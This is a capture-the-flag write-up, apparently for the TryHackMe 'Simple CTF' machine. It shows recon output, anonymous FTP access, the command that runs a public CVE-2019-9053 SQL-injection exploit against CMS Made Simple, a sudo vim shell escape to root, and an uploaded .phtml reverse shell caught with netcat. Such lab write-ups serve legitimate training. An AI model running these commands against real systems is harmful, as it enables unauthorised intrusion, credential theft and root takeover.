 # Recon
### Namp
```shell
┌─[noxi0us@parrot]─[~]
└──╼ $sudo nmap -sS -sV -Pn 10.10.16.53
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 18:25 IST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.10.16.53
Host is up (1.6s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
21/tcp   open  tcpwrapped
80/tcp   open  tcpwrapped
2222/tcp open  tcpwrapped

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 267.01 seconds

```


```shell
┌─[noxi0us@parrot]─[~]
└──╼ $sudo nmap -sS -sV -Pn -T4 -p 2222 10.10.16.53
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 18:45 IST
Nmap scan report for 10.10.16.53
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.24 seconds

```

- FTP login for anonymous  is available.
```shell
┌─[noxi0us@parrot]─[~]
└──╼ $ftp 10.10.148.102
Connected to 10.10.148.102.
220 (vsFTPd 3.0.3)
Name (10.10.148.102:noxi0us): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls


ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (285.4038 kB/s)
ftp> 

```


![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/d268d05d-4d00-4233-a5e0-2e860388e2b3)

### gobuster
```shell
┌─[noxi0us@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.16.53/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.16.53/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/27 18:57:29 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]  
/server-status        (Status: 403) [Size: 299]  
/simple               (Status: 301) [Size: 311] [--> http://10.10.16.53/simple/]
                                                                                
===============================================================
2022/11/27 19:02:12 Finished
===============================================================

```

# finding vulnerability
- when we visit /simple directory , we are presented by CMS made simple page.
- there we can see version number


![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/c66aca59-46b7-44d9-abd5-71f7d013ca6d)

# searchsploit
```shell
┌─[noxi0us@parrot]─[~]
└──╼ $searchsploit cms made simple 2.2.8
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection      | php/webapps/46635.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```

- After searching we can find vulnerability i.e. CVE-2019-9053
- download the pthon script and run it .
`python3 46635.py -u http://10.10.148.102/simple/ -c -w /usr/share/wordlists/rockyou.txt`

![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/6db146fe-b186-43e5-b202-db5fa437fc77)


# PrivEsc

## Meathod 1

- After running the exploit, we got a username and password. Since there is an ssh port on 2222, lets try these credentials over there
`ssh mitch@10.10.148.102 -p 2222`
- Found user flag.

- Found another user sunbath.
```shell
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```
- using vim to get root access on Gtfobins

![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/ad84b497-8f96-4d71-b744-7b3a65c3442c)


```shell
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^Gid
/bin/sh: 1: ot found
/bin/sh: 1: 2Rid: not found
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
mitch  sunbath
# cd sunbath	    
# ls
Desktop    Downloads	     Music     Public	  Videos
Documents  examples.desktop  Pictures  Templates
# cd ..
# cd ..
# ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr	   vmlinuz.old
boot   etc   initrd.img.old  media	 proc  sbin  sys  var
cdrom  home  lib	     mnt	 root  snap  tmp  vmlinuz
# cd root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!

```

## Meathod 2

logged in to simple using above creds


--- using .phtml extention uploaded file to rev directory and got a reverse shell
http://10.10.79.252/simple/uploads/rev/


```html

Index of /simple/uploads/rev
[ICO]     Name Last modified  Size Description
[PARENTDIR]    Parent Directory         -     
[TXT]     40700.html     2024-01-22 10:14    6.4K  
[   ]     rev.phtml 2024-01-22 10:15    5.4K  
Apache/2.4.18 (Ubuntu) Server at 10.10.79.252 Port 80

```


```sh
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.22.172] from (UNKNOWN) [10.10.79.252] 60526
Linux Machine 4.15.0-58-generic #64~16.04.1-Ubuntu SMP Wed Aug 7 14:09:34 UTC 2019 i686 i686 i686 GNU/Linux
 10:16:20 up 49 min,  0 users,  load average: 0.28, 0.32, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ su mitch 

```



```sh
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim






$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^G
/bin/sh: 1: ot found
/bin/sh: 1: 2R: not found
# id
uid=0(root) gid=0(root) groups=0(root)
#


```
